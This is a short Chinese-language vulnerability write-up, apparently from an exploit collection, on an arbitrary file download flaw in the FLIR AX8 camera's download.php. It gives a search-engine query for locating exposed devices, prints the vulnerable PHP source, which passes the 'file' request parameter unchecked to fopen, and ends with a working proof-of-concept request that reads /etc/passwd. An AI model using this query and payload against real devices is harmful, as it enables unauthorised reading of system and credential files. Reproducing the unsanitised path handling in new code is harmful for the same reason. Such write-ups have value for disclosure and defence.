

# FLIR-AX8 download.php 任意文件下载

## 漏洞描述

FLIR-AX8 download.php文件过滤不全 存在任意文件下载漏洞

## 漏洞影响

<a-checkbox checked>FLIR-AX8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="FLIR-FLIR-AX8"</a-checkbox></br>

## 漏洞复现

登录页面



出现漏洞的文件为 **download.php**

```php
<?php
/**
 * Copyright 2012 Armand Niculescu - MediaDivision.com
 * Redistribution and use in source and binary forms, with or without modification, are permitted provided that the following conditions are met:
 * 1. Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
 * 2. Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
 * THIS SOFTWARE IS PROVIDED BY THE FREEBSD PROJECT "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE FREEBSD PROJECT OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
 */
// get the file request, throw error if nothing supplied

// hide notices
@ini_set('error_reporting', E_ALL & ~ E_NOTICE);

//- turn off compression on the server
//@apache_setenv('no-gzip', 1);
//@ini_set('zlib.output_compression', 'Off');

if(!isset($_REQUEST['file']) || empty($_REQUEST['file']))
{
	header("HTTP/1.0 400 Bad Request");
	exit;
}

// sanitize the file request, keep just the name and extension
// also, replaces the file location with a preset one ('./myfiles/' in this example)
$file_path  = $_REQUEST['file'];
$file_type = $_REQUEST['type'];
$path_parts = pathinfo($file_path);
$file_name  = $path_parts['basename'];
$file_ext   = $path_parts['extension'];

// allow a file to be streamed instead of sent as an attachment
$is_attachment = isset($_REQUEST['stream']) ? false : true;

// make sure the file exists
if (is_file($file_path))
{
	$file_size  = filesize($file_path);
	$file = @fopen($file_path,"rb");
	if ($file)
	{
		// set the headers, prevent caching
		header("Pragma: public");
		header("Expires: -1");
		header("Cache-Control: public, must-revalidate, post-check=0, pre-check=0");
		header("Content-Disposition: attachment; filename=\"$file_name\"");

        // set appropriate headers for attachment or streamed file
        if ($is_attachment) {
                header("Content-Disposition: attachment; filename=\"$file_name\"");
        }
        else {
                header('Content-Disposition: inline;');
                header('Content-Transfer-Encoding: binary');
        }

        // set the mime type based on extension, add yours if needed.
        $ctype_default = "application/octet-stream";
        $content_types = array(
                "exe" => "application/octet-stream",
                "zip" => "application/zip",
                "mp3" => "audio/mpeg",
                "mpg" => "video/mpeg",
                "avi" => "video/x-msvideo",
        );
        $ctype = isset($content_types[$file_ext]) ? $content_types[$file_ext] : $ctype_default;
        header("Content-Type: " . $ctype);

		//check if http_range is sent by browser (or download manager)
		if(isset($_SERVER['HTTP_RANGE']))
		{
			list($size_unit, $range_orig) = explode('=', $_SERVER['HTTP_RANGE'], 2);
			if ($size_unit == 'bytes')
			{
				//multiple ranges could be specified at the same time, but for simplicity only serve the first range
				//http://tools.ietf.org/id/draft-ietf-http-range-retrieval-00.txt
				list($range, $extra_ranges) = explode(',', $range_orig, 2);
			}
			else
			{
				$range = '';
				header('HTTP/1.1 416 Requested Range Not Satisfiable');
				exit;
			}
		}
		else
		{
			$range = '';
		}

		//figure out download piece from range (if set)
		list($seek_start, $seek_end) = explode('-', $range, 2);

		ob_clean();
		
		//set start and end based on range (if set), else set defaults
		//also check for invalid ranges.
		$seek_end   = (empty($seek_end)) ? ($file_size - 1) : min(abs(intval($seek_end)),($file_size - 1));
		$seek_start = (empty($seek_start) || $seek_end < abs(intval($seek_start))) ? 0 : max(abs(intval($seek_start)),0);
	 
		//Only send partial content header if downloading a piece of the file (IE workaround)
		if ($seek_start > 0 || $seek_end < ($file_size - 1))
		{
			header('HTTP/1.1 206 Partial Content');
			header('Content-Range: bytes '.$seek_start.'-'.$seek_end.'/'.$file_size);
			header('Content-Length: '.($seek_end - $seek_start + 1));
		}
		else
		  header("Content-Length: $file_size");

		header('Accept-Ranges: bytes');
    
		set_time_limit(0);
		fseek($file, $seek_start);
		
		while(!feof($file)) 
		{
			print(@fread($file, 1024*8));
			ob_flush();
			flush();
			if (connection_status()!=0) 
			{
				@fclose($file);
				exit;
			}			
		}
		
		// file save was a success
		@fclose($file);
		exit;
	}
	else 
	{
		// file couldn't be opened
		header("HTTP/1.0 500 Internal Server Error");
		exit;
	}
}
else
{
	// file does not exist
	header("HTTP/1.0 404 Not Found");
	exit;
}
?>
```

验证POC

```plain
/download.php?file=/etc/passwd
```


